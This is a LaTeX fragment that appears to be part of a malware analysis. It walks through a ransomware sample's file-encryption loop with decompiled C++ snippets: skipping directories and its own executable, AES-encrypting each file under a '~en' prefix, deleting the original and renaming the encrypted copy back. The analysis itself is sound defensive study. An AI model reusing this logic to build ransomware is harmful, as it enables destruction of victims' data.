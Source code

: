 \documentclass[11pt]{article}
\begin{document}
The loop executes the following code:
\begin{itemize}
  \item Exclude directories by determining the file attributes (0x10 for directory).
  \begin{lstlisting}[language=c++]
    if ((local_10e8.dwFileAttributes & 0x10) == 0){/*...*/}
\end{lstlisting}

  \item Compare the first three characters (6 bytes) of the filename with the string '~en', and then exclude the file if they are same.
  \begin{lstlisting}[language=c++]
    wchar_t local_e98[8];
    copy_14000c700((undefined8 *)local_e98, (undefined8 *)local_10e8.cFileName, 6);
    iVar2 = wcscmp(local_e98, L"~en");
    if (iVar2 != 0){/*...*/}
\end{lstlisting}

  \item Retrieve the path of the executable file of the current process by calling \textbf{GetModuleFileNameW()}, and then exclude this file (i.e. ransomware) .
  \begin{lstlisting}[language=c++]
    WCHAR local_858[264];
    GetModuleFileNameW((HMODULE)0x0, local_858, 0x104);
    _Str2 = PathFindFileNameW(local_858);
    iVar2 = wcscmp(local_10e8.cFileName, _Str2);
    if (iVar2 != 0){/*...*/}
\end{lstlisting}

  \item Encrypt the original file by calling \textbf{AES\_Encrypt\_140007080()}. \\Prefix the filename of encrypted file with '~en' (e.g. 'sample.md' to '~ensample.md'). \\Delete the original file by calling \textbf{DeleteFileW()}.
  \begin{lstlisting}[language=c++]
    CopyWPath_140007bc0(local_648, 0x104, dir);
    output_addr = local_648;
    ConcatWPath_140007b20(output_addr,0x104,L"~en");
    ConcatWPath_140007b20(output_addr, 0x104, local_10e8.cFileName);
    AES_Encrypt_140007080(input_addr, output_addr);
    DeleteFileW(input_addr);
\end{lstlisting}
\end{itemize}

After the above loop is completed, the second loop renames all the encrypted file to the original filenames by calling the \textbf{MoveFileW()} function (e.g. '~ensample.md' to 'sample.md').
  \begin{lstlisting}[language=c++]
    MoveFileW(local_10f0, local_10f8);
\end{lstlisting}
\end{document}
